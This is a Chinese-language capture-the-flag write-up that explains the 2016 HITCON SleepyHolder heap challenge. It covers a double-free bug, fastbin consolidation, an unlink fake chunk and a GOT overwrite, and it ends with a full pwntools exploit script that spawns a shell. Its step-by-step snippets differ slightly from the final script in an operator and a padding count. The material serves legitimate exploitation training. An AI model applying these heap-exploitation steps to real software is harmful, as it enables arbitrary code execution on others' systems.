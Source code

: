 # 2016 HITCON CTF SleepyHolder
### 序言
> 本来这周准备学习`House Of Orange`, 但是这个牵扯知识点太多. 忽然发现还有一个`fastbin_dup_consolidate`没有学习, 补一下.

### 程序运行(文章尾部有程序源码)
**1. MENU**
```
1. Keep secret
2. Wipe secret
3. Renew secret
```
**2. Keep secret(New)**
```
1. Small secret
2. Big secret
3. Keep a huge secret and lock it forever

1
Tell me your secret:
hello, world
#另外两个选项类似,　只是分配的堆空间大小不同
```
**3.Wipe secret(Delete)**
```
Which Secret do you want to wipe?
1. Small secret
2. Big secret
1
```
**4. Renew secret(Update)**
```
Which Secret do you want to renew?
1. Small secret
2. Big secret
1
Tell me your secret:
AAAA
```
### 程序分析

**1. Keep Secret(New)**
> 可以选择申请`40, 4000, 40000`三种不同大小的堆块. 当申请大小超过`top chunk size`, `ptmalloc`会整合一些`fastbin`中的`free chunk`并入`top chunk`, 如果还不够就`mmap`一块新的`chunk`，这个`chunk`与原有的`top chunk`之间采用单链表链接.

**2. Wipe Secret(Delete)**
> `free`对应的指针, 标志位置`0`

**3. Renew Secret(Update)**
>　不检查指针是否已释放, 造成`Double Free`


### 知识点
**[Double Free](https://heap-exploitation.dhavalkapil.com/attacks/double_free.html)**
**[Unlink](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html)**
### 思路分析
&nbsp;&nbsp;&nbsp;&nbsp;**总体思路:** `Double Free` 掉`small secret`, 在`small secret` 中构造`fake chunk`, 释放`big secret`,　`big secret`会和`fake chunk`合并, 过程中我们用`unlink`来修改全局指针变量`s_ptr`. 通过将其修改为`free@got`, 修改`free@got`为`put@plt`, 泄露`libc 地址`, 再将其修改为`system`地址, `free　"/bin/sh"`时就等于执行了`system("/bin/sh")`

**步骤一: Double Free**
```python
add(1, 'aaa') #small secret
add(2, 'bbb') #big secret
delete(1)    ------------------
add(3, 'ccc') #huge secret    ｜--------> Double Free
delete(1)    ------------------
```
**步骤二: Fake Chunk**

```python
f_ptr = 0x6020d0
fake_chunk = p64(0) + p64(0x21)
fake_chunk += p64(f_ptr - 0x18) - p64(f_ptr - 0x10)
fake_chunk += p64(0x20)
add(1, fake_chunk)
delete(2) #unlink
```
**小结:** [Unlink栗子](https://blog.csdn.net/qq_33528164/article/details/79586902)

**步骤三: 泄露**
```
content  = p64(0) + p64(atoi_got)
content += p64(puts_got) + p64(free_got) + p32(0x1)*2
update(1, content) #f_ptr = free_got
update(1, p64(puts_plt)) #free_got = puts_plt
delete(2) #puts(atoi)
libc_base = u64(p.recvn(6).ljust(8, "\x00")) - atoi_offset
system = libc_base + system_offset
```

**步骤四: system("/bin/sh")**
```
update(1, p64(system))
add(2, "/bin/sh\x00")
delete(2) #system("/bin/sh")
```

### 踩过的坑
> 1. 对于`read`函数, pwntools发送的时候最好不用`sendline`,　尽量使用发送足量的字符来结束输入. 就像本题, 如果将`add, delete, update`函数中`p.send`改成`p.sendline`, 那么会出错.

> 2. 泄露`libc base`地址:
>> 1. 泄露`libc`中某一个函数的地址, 减去对应函数在`libc`中的偏移量就可以得到`libc base`
>> 2. free掉一个`0x80`或大于`0x80`的`chunk`, 泄露出该地址, 减去`0x3c4b78`, 也是`libc base`(`libc`的基地址)
### 完整EXP
```
from pwn import *

context.log_level = 'debug'

p = process("./SleepyHolder")
elf = ELF("./SleepyHolder")
libc = ELF("./libc.so.6")

def add(index, content):
    p.recvuntil("Renew secret\n")
    p.sendline("1")
    p.recvuntil("\n")
    p.sendline(str(index))
    p.recvuntil("secret: \n")
    p.send(content)

def delete(index):
    p.recvuntil("3. Renew secret\n")
    p.sendline("2")
    p.recvuntil("Big secret\n")
    p.send(str(index))

def update(index, content):
    p.recvuntil("Renew secret\n")
    p.sendline("3")
    p.recvuntil("Big secret\n")
    p.sendline(str(index))
    p.recvuntil("secret: \n")
    p.send(content)

# Double Free
add(1, 'aaa')
add(2, 'bbb')
delete(1)
add(3, 'ccc')
delete(1)

#Fake Chunk
f_ptr = 0x6020d0
s_ptr = 0x6020c0

fake_chunk  = p64(0) + p64(0x21)
fake_chunk += p64(0x6020d0-0x18) + p64(0x6020d0-0x10)
fake_chunk += p64(0x20)
add(1, fake_chunk)
delete(2)

#gdb.attach(p)
#leak libc base
free_got = elf.got['free']
atoi_got = elf.got['atoi']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
system_offset = libc.symbols['system']
atoi_offset = libc.symbols['atoi']

#gdb.attach(p)
content = p64(0) + p64(atoi_got)
content += p64(puts_got) + p64(free_got) + p32(0x1)*3
update(1, content)
update(1, p64(puts_plt))
#update

delete(2)
libc_base = u64(p.recvn(6).ljust(8, "\x00")) - atoi_offset
system = libc_base + system_offset

update(1, p64(system))
add(2, "/bin/sh\x00")
delete(2)
p.interactive()
```
### 相关链接
[Isaac](https://poning.me/2016/10/29/secret-holder/)
[0x9A82](https://www.cnblogs.com/Ox9A82/p/6766261.html)
[相关文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/how2heap/fastbin_dup_consolidate)

